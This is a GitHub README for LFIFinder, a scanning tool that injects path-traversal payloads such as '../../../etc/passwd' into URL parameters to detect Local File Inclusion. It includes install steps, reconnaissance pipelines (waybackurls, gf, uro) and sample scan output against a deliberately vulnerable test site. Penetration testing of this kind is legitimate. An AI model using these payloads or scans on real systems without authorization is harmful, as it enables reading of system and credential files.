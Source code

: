 # LFIFinder

A Light Weight Tool for checking Local File Inclusion (LFI) vulnerabilities by replacing lfi payloads in the parameters values and checking 'root:' in the response.

## Installation
```
git clone https://github.com/rix4uni/LFIFinder.git
cd LFIFinder
pip3 install -r requirements.txt
```

## Example usages

Note: must use `uro`

Single URL:
```
echo "http://testphp.vulnweb.com/showimage.php?file=./pictures/1.jpg" | python3 lfifinder.py
```

Multiple URLs:
```
cat lfi-urls.txt | python3 lfifinder.py
```

## Chaining With Other Tools
```
echo "http://testphp.vulnweb.com" | waybackurls | gf lfi | uro | anew | python3 lfifinder.py --threads 50
echo "http://testphp.vulnweb.com" | waybackurls | gf lfi | uro | anew lfi-urls.txt # use this output in Multiple URLs
```
## To get best results
```
open lfi_payloads.txt add your favraioute payloads
```

## How It Works
```
For Example Url is:- 
http://testphp.vulnweb.com/showimage.php?file=first&cat=second

It will check all lfipayloads one by one:-
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=../../etc/passwd&cat=../../etc/passwd
VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=../../../etc/passwd&cat=../../../etc/passwd
NOT VULNERABLE: http://testphp.vulnweb.com/showimage.php?file=../../../../../../../etc/passwd&cat=../../../../../../../etc/passwd
```
